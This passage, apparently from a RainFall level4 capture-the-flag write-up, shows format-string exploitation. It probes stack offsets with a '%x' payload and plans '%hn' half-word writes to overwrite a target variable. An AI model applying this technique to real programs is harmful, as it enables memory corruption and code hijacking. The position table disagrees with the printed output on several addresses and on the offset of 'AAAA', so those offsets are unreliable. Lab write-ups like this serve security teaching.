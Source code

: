 ### 8. Format String Position Discovery
```bash
level4@RainFall:~$ python -c 'print "AAAA" + " %x" * 15' | ./level4
AAAA b7ff26b0 bffff7f4 b7fd0ff4 0 0 bffff7b8 804848d bffff5b0 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078

# Position analysis:
# 1: b7ff26b0  - Stack value
# 2: bffff794  - Stack value  
# 3: b7fd0ff4  - Stack value
# 4: 0         - Stack value
# 5: 0         - Stack value
# 6: bffff758  - Stack value
# 7: 804848d   - Return address in n()
# 8: bffff550  - Buffer address 
# 9: 200       - Size argument (512)
# 10: b7fd1ac0 - stdin
# 11: 41414141 - Our "AAAA" input! ← Position 12 (0-indexed = 11)
```

## Exploitation Strategy: Half-Word Writes

### 9. Understanding the Challenge
```bash
# Problem: Need to write 0x1025544 (16,930,116)
# Using %n would require printing 16,930,116 characters - impractical!
# Solution: Use %hn to write 16-bit values (half-words)

# Split 0x1025544 into two 16-bit parts:
# High word (bytes 2-3): 0x0102 = 258
# Low word  (bytes 0-1): 0x5544 = 21828
```

### 10. Memory Layout for Target Variable
```
Target Address: 0x8049810

Before exploit:
┌─────────────┬─────────────┬─────────────┬─────────────┐
│ 0x8049810   │ 0x8049811   │ 0x8049812   │ 0x8049813   │
│     00      │     00      │     00      │     00      │
└─────────────┴─────────────┴─────────────┴─────────────┘
  Low byte      2nd byte      3rd byte      High byte

After exploit (target value 0x01025544):
┌─────────────┬─────────────┬─────────────┬─────────────┐
│ 0x8049810   │ 0x8049811   │ 0x8049812   │ 0x8049813   │
│     44      │     55      │     02      │     01      │
└─────────────┴─────────────┴─────────────┴─────────────┘
  Low word = 0x5544         High word = 0x0102
  = 21828                   = 258
```
